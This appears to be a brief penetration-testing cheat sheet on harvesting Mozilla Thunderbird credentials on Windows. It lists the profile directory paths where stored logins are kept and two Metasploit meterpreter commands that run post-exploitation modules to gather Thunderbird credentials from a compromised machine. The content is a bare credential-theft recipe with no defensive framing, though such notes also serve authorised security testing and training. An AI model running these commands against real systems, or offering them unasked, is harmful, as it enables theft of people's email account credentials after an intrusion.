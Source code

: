 # Thunderbird

## 01 - Manual

```
C:\Users\%username%\AppData\Roaming\Thunderbird\Profiles\

%appdata%\Thunderbird\Profiles\

%userprofile%\AppData\Roaming\Thunderbird\Profiles\
```

## 02 - Metasploit

```
meterpreter > run post/multi/gather/thunderbird_creds

meterpreter > run post/windows/gather/credentials/thunderbird
```
